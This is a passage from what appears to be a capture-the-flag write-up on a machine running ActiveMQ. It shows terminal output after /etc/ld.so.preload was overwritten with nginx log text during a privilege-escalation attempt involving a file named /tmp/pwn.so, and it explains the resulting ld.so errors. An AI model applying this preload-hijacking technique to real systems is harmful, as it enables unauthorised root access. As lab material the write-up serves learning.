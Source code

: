 ```
activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '40' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

That’s because `curl` is trying to load a bunch of things as shared objects from `ld.so.preload` that aren’t shared objects. This is clear in `/etc/ld.so.preload`:

```
activemq@broker:/tmp$ cat /etc/ld.so.preload
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '40' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '42' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '2426#2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '*2' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'open()' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '"/tmp/pwn.so"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'failed' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '(2' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'No' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
```